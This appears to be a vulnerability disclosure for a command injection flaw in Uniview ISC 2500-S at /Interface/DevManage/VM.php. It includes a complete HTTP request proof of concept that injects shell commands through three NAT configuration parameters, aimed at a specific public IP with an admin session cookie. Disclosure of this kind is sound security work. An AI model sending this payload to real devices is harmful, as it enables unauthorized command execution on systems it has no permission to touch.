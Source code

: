 Zhejiang Uniview ISC 2500-S system has command execution vulnerability

version:ISC 2500-S

Vulnerability location:/Interface/DevManage/VM.php

When entering the setNatConfig branch, the three parameters natAddress, natPort, and natServerPort are brought to the exec() function for command execution without any filtering.
![image](https://github.com/dezhoutorizhao/cve/assets/92038690/d4150caf-c9d1-4fc2-941b-7b67d71a94e9)

![image](https://github.com/dezhoutorizhao/cve/assets/92038690/d6780753-a446-4e32-b737-f65ff6fdd553)


We write the id into 1.php through the natAddress, natPort, and natServerPort parameters. The POC is as follows

```
POST /Interface/DevManage/VM.php HTTP/1.1
Accept: */*
Accept-Language: zh-cn
Referer: http://220.189.218.162:90/Page/SystemConfig/DevConfig/NatSet.php
x-requested-with: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: 220.189.218.162:90
Content-Length: 261
Pragma: no-cache
Cookie: logintime=Fri%20Jan%205%2018%3A46%3A56%20UTC+0800%202024; devLanguage=zh-CN; loginuser=admin; recordpasswd=false; PHPSESSID=4fa99df42dc0dad9b54b4034c74e8f91
Connection: close

cmd=setNatConfig&natAddress=1.1.1.2;echo%20`id`%20>%201.php&natPort=80;echo%20`id`%20>%201.php&natServerPort=;echo%20`id`%20>%201.php&GAJAX_USERID=0000&GAJAX_LOGINID=21822020240105183142&GAJAX_ORGCODE=0000&GAJAX_USERNAME=admin&GAJAX_ORGNAME=Root&GAJAX_ORGTYPE=2
```
![image](https://github.com/dezhoutorizhao/cve/assets/92038690/e0384c13-7582-4951-b07d-13541be3ad61)

Visit /Interface/LogReport/1.php

![image](https://github.com/dezhoutorizhao/cve/assets/92038690/243d1e8d-44b5-48fd-bc07-308d2f3c7197)
